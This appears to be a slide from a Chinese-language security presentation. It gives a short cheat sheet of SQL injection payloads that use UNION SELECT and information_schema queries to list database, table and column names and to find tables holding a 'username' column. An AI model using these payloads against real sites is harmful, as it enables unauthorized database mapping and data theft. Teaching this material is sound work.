

03

注入语句备忘

SELECT database();
SELECT schema_name FROMinformation_schema.schemata;

1
数据库名

2

UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10
表名

UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'

3

列名

-- 查询字段名为 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name = 'username';
-- 查询字段名中包含 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';

4

根据列名查询所在的表